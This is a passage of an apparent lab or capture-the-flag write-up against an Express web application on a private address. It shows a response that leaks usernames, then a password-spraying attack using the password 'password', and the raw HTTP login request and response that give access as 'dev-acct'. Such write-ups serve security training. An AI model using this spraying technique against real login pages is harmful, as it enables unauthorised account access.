 ### response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 17631
ETag: W/"44df-pZIEBbTSCxHDoXwBwgjxnrd/BcI"
Date: Tue, 08 Feb 2022 05:45:39 GMT
Connection: close

["roxanne","nestor","evelyn","jerrold","dianna","lindsey","clair",...
```

> We may can use this information to perform a `reverse brute force` attack to gain access to the application.
{: .prompt-info }

## `reverse brute` force login
Now we are performing a `reverse brute force` attack with `hydra` or `burpsuite` to check if any of the enumerated accounts uses the password `password`.

> successfull login for `dev-acct`
{: .prompt-info }

### login request
```http
POST /login HTTP/1.1
Host: 192.168.135.106
Content-Length: 45
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Origin: http://192.168.135.106
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A6CNkIR8TsvD0kH2rTmXKG5N2IYusjBIf.u6UY4ec5xqLFUUIeSDmLY5yMrhwCmQ1gbcByzcOzXaM
Connection: close

{"username":"dev-acct","password":"password"}
```

### login response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Content-Length: 2
ETag: W/"2-nOO9QiTIwXgNtWtBJezz8kv3SLc"
Set-Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY; Path=/; HttpOnly
Date: Tue, 08 Feb 2022 05:29:54 GMT
Connection: close

OK
```
